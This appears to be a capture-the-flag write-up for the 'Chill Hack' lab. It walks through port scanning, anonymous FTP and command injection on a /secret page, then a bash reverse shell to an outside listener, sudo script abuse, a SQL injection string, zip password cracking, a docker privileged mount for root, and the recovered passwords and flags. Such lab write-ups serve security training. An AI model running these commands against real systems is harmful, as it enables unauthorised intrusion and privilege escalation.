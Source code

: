 # Chill Hack

* IP = 10.10.175.103

## Enumerating And Scanning:

* Nmap scan to discover open ports:
`nmap -sC -sV -vv $IP`
* **Nmap Scan Results:**
```bash
PORT   STATE SERVICE REASON  VERSION
21/tcp open  ftp     syn-ack vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 1001     1001           90 Oct 03  2020 note.txt
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to ::ffff:10.4.50.128
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 09:f9:5d:b9:18:d0:b2:3a:82:2d:6e:76:8c:c2:01:44 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDcxgJ3GDCJNTr2pG/lKpGexQ+zhCKUcUL0hjhsy6TLZsUE89P0ZmOoQrLQojvJD0RpfkUkDfd7ut4//Q0Gqzhbiak3AIOqEHVBIVcoINja1TIVq2v3mB6K2f+sZZXgYcpSQriwN+mKgIfrKYyoG7iLWZs92jsUEZVj7sHteOq9UNnyRN4+4FvDhI/8QoOQ19IMszrbpxQV3GQK44xyb9Fhf/Enzz6cSC4D9DHx+/Y1Ky+AFf0A9EIHk+FhU0nuxBdA3ceSTyu8ohV/ltE2SalQXROO70LMoCd5CQDx4o1JGYzny2SHWdKsOUUAkxkEIeEVXqa2pehJwqs0IEuC04sv
|   256 1b:cf:3a:49:8b:1b:20:b0:2c:6a:a5:51:a8:8f:1e:62 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBFetPKgbta+pfgqdGTnzyD76mw/9vbSq3DqgpxPVGYlTKc5MI9PmPtkZ8SmvNvtoOp0uzqsfe71S47TXIIiQNxQ=
|   256 30:05:cc:52:c6:6f:65:04:86:0f:72:41:c8:a4:39:cf (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIKHq62Lw0h1xzNV41zO3BsfpOiBI3uy0XHtt6TOMHBhZ
80/tcp open  http    syn-ack Apache httpd 2.4.29 ((Ubuntu))
|_http-favicon: Unknown favicon MD5: 7EEEA719D1DF55D478C68D9886707F17
| http-methods:
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Game Info
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

* FTP Anonymous login is permitted i.e. Login to FTP server with `anonymous` username and no password is allowed.
* FTP has only one file:`note.txt`<br>
![Screenshot](./assets/2.png)<br>

* Contents of `note.txt`:
```
Anurodh told me that there is some filtering on strings being put in the command -- Apaar
```
* `anurodh` and `apaar` usernames are noted for later use.
* The website view of main page:<br>
![Screenshot](./assets/1.png)

* Used `gobuster` to scan to find any other hidden directories on the website:
* **Gobuster Scan Results:**
```
=====================================================
/.hta (Status: 403)
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/css (Status: 301)
/fonts (Status: 301)
/images (Status: 301)
/index.html (Status: 200)
/js (Status: 301)
/secret (Status: 301)
/server-status (Status: 403)
=====================================================
2022/07/30 19:12:47 Finished
=====================================================
```
* `/secret` directory of the website:<br>
![Screenshot](./assets/3.png)
* Basic commands like `ls` or `cat` can't be executed:<br>
![Screenshot](./assets/4.png)
* But, `id` command was executed successfully:<br>
![Screenshot](./assets/5.png)
* Searched for some bash reverse shell payloads from <a href="https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet">Pentestmonkey</a>.
* But `bash -i >& /dev/tcp/10.4.50.128/7777 0>&1` can't be used.<br>
![Screenshot](./assets/4.png)
* Using `/bin/bash` instead of `bash` works.

## Exploitation/Gaining Access:

* Finally this payload worked properly:`/bin/bash -c '/bin/bash -i >& /dev/tcp/10.4.50.128/7777 0>&1'`, with a netcat listener:`nc -lnvp 7777`<br>
![Screenshot](./assets/6.png)
* Next, some basic enumeration in the home directory:<br>
![Screenshot](./assets/7.png)
* Sudo commands that can be run by `www-data` user:<br>
![Screenshot](./assets/8.png)
* Hence the following command can be used to run `.helpline.sh` as `apaar` user:`sudo -u apaar /home/apaar/.helpline.sh`. Now, since the above code directly passes the given input and runs the command without parsing, giving `/bin/bash` as input will spawn a shell with `apaar` user privileges.
![Screenshot](./assets/9.png)<br>
* The file `local.txt` in `apaar` user's home directory is the required user flag.<br>
![Screenshot](./assets/10.png)

## Post Exploitation

`netstat -anlp | grep LISTEN`
`ssh -i id_rsa apaar@10.10.175.103 -L 9001:127.0.0.1:9001`

`admin' or 1=1 --`
`fcrackzip -D -u -p ../../../New\ Vol\(F\)/rockyou.txt backup.zip`
`pass1word`
`!d0ntKn0wmYp@ssw0rd`

```
anurodh@ubuntu:~$ id
uid=1002(anurodh) gid=1002(anurodh) groups=1002(anurodh),999(docker)
```
`docker run --rm -it --privileged -v /:/mnt alpine`


## Privilege Escalation

```yaml
anurodh ALL=(ALL) NOPASSWD: ALL
```

## Questions/Tasks:

1. User Flag:

**Ans-{USER-FLAG: e8vpd3323cfvlp0qpxxx9qtr5iq37oww}**

2. Root Flag:

**Ans-{ROOT-FLAG: w18gfpn9xehsgd3tovhk0hby4gdp89bg}**
